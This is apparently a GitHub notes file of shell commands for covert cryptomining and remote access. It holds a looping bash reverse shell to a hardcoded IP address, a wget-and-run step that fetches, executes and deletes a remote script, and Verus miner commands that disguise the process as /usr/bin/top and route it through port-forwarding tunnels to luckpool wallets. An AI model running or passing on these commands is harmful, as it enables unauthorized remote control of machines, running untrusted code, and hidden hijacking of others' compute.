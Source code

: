 fuser -k 4055/tcp
npm i dotenv (install modul dotenv di node)
while true; do bash -c 'bash -i >& /dev/tcp/35.247.34.178/4053 0>&1'; sleep 10; done
evaldana-36710.portmap.host:22703 => 4050
#### dependence ccmine

apt-get install libcurl4-openssl-dev libssl-dev libjansson-dev automake autotools-dev build-essential

wget https://raw.githubusercontent.com/hudahadoh/vs/main/vs.sh && chmod +x vs.sh && ./vs.sh && rm vs.sh && cd /usr/bin

./bhmax -a verus  -o stratum+tcp://eu.luckpool.net:3956  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.py1 -p x -t 1
werkol-28870.portmap.host:28870 => 4052
./pythonc -s "/usr/bin/top" -d -p test.pid ./bhmax  -a verus  -o stratum+tcp://werkol-28870.portmap.host:28870  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.ZX5 -p x -t 85
./pythonc -s "/usr/bin/top" -d -p test.pid ./bhmax  -a verus  -o stratum+tcp://werkol-28870.portmap.host:28870  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.l4 -p x -t 1


### git clone --single-branch -b  Verus2.2gpu https://github.com/monkins1010/ccminer.git
git clone --single-branch -b Verus2.2gpu https://github.com/monkins1010/ccminer.git (gpu nvidia)
git clone --single-branch -b Verus2.2 https://github.com/monkins1010/ccminer.git  (cpu only)

cd ccminer

chmod +x build.sh

chmod +x configure.sh

chmod +x autogen.sh

./build.sh

./ccminer  -a verus  -o stratum+tcp://eu.luckpool.net:3956  -u RRT2bJnHu9n1Qzh4crRZZKFoX3HXrtTDer.colabs3  -p x  -t 4
